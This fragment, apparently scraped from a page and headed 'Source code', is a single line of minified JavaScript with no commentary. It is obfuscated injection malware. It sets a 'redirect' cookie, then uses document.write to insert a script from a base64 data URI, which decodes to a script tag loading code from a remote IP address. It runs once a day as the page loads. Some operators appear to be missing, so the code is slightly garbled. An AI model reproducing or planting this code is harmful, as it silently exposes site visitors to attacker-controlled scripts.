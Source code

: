 function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}